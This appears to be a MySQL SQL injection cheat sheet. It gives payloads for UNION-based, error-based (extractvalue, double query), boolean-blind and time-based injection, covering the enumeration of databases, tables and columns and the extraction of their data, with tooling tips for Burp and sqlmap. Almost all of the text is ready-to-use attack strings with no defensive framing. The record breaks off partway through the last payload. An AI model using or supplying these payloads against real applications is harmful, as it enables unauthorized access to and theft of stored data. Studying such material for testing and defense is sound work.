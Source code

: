 UNION

UNION is used to append our SQL injection to a legitimate query and combine the information we wish to retrieve with that of the legitimate query. Note that you need to enumerate the number of columns first, this can be achieved by using the ORDER BY function or using UNION with NULL values.

Assuming there are two columns:

Retrieve database version:


`1 UNION ALL SELECT NULL,version()--`

Retrieve database names:

`1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--`
Retrieve table names:

`1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='database1'--`

Retrieve column names:

`1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'--`

Retrieve data:

`1 UNION ALL SELECT NULL,concat(0x28,column1,0x3a,column2,0x29) FROM table1--`

Retrieve data from another database:

`1 UNION ALL SELECT NULL,concat(0x28,column1,0x3a,column2,0x29) FROM database2.table1--`

Error Based

When there is no output except a MySQL error, you can force your data extraction through the error. Note that both of the below methods can be easily automated using Burp’s Intruder and the grep extract functionality.

XPath

The ExtractValue() function generates a SQL error when it is unable to parse the XML data passed to it. Fortunately, the XML data, and, in our case, the evaluated results of our SQL query, will be be embedded into the subsequent error message. Prepending a full stop or a colon (we use the hex representation of 0x3a below) to the beginning of the XML query will ensure the parsing will always fail, thus generating an error with our extracted data. Note that this only works on MySQL version 5.1 or later. Use the LIMIT function to cycle through database information.

 

Retrieve database version:

`1 AND extractvalue(rand(),concat(0x3a,version()))--`

Retrieve database names:

`1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))--`

Retrieve table names:

`1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1)))--`

Retrieve column names:

`1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_NAME="table1" LIMIT 0,1)))--`

Retrieve data:

`1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(column1,0x3a,column2) FROM table1 LIMIT 0,1)))--`

Retrieve data from another database:

`1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(column1,0x3a,column2) FROM database2.table1 LIMIT 0,1)))--`

Double Query

The functions used below combine to produce a query which is accepted by the MySQL compiler but errors at runtime. The error is then returned, but it evaluates and includes the subquery (due to the double select), thus returning the results of our injection to the page. Increment the first LIMIT to cycle through the database information.
Retrieve database version:

`1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(version(),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--`

Retrieve database names:

`1 AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT schema_name FROM information_schema.schemata LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)--`
Retrieve table names:

`1 AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)--`

Retrieve column names:

`1 AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1) 0x3a,FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)--`

Retrieve data:

`1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT column1 FROM table1 LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--`

Retrieve data from another database:

`1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT column1 FROM database2.table1 LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)--`

Inferential

When no data or error messages are returned, you can use time delays or true/false responses to retrieve database information. Note that automated tools such as sqlmap significantly speed up the process.

Boolean

This type of extraction is used when the application returns differing results dependent on whether the SQL query we inject evaluates to true or false. If we convert each individual character of the piece of database information we wish to retrieve to their decimal representation using the ASCII function (table here), we can create true or false conditions using the greater than, less than and equals symbols. We can then cycle through the individual characters using the SUBSTRING function and the pieces of database information using the LIMIT function.

Test for the presence of the vulnerability. This query should result in the original page being displayed:

`1 AND 1=1`

Whilst this query should return a different page:

`1 AND 1=2`

Retrieve version:

`1 AND (ascii(substr((SELECT version()),1,1))) > 52--`

Note, a better way to retrieve the version in this context is to use the LIKE function:

`1 AND (SELECT version()) LIKE "5%"--`

Retrieve databases:

`1 AND (ascii(substr((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1))) > 95--`

Retrieve tables:

`1 AND (ascii(substr((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),1,1))) > 95--`

Retrieve columns:

`1 AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1),1,1))) > 95--`

Retrieve data:

`1 AND (ascii(substr((SELECT column1 FROM table1 LIMIT 0,1),1,1))) > 95--`

Retrieve data from another database:

`1 AND (ascii(substr((SELECT column1 FROM database2.table1 LIMIT 0,1),1,1))) > 95--`

Time Based

If identical pages are returned for true or false responses, time delays can be created by the IF andSLEEP functions and used to deduce database information instead.

Test for the presence of the vulnerability:

`1 AND sleep(10)--`

Retrieve version:

`1 AND IF((SELECT ascii(substr(version(),1,1))) > 53,sleep(10),NULL)--`

Retrieve version using LIKE:

`1 AND IF((SELECT version()) LIKE "5%",sleep(10),NULL)--`

Retrieve databases:

`1 AND IF(((ascii(substr((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--`

Retrieve tables:

`1 AND IF(((ascii(substr((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),1,1))))> 95,sleep(10),NULL)--`

Retrieve columns:

`1 AND IF(((ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--`

Retrieve data:

`1 AND IF(((ascii(substr((SELECT column1 FROM table1 LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--`

Retrieve data from another database:

`1 AND IF(((ascii(substr((SELECT column1 FROM database1.table1 LIMIT 0,1),1,1)))) >`
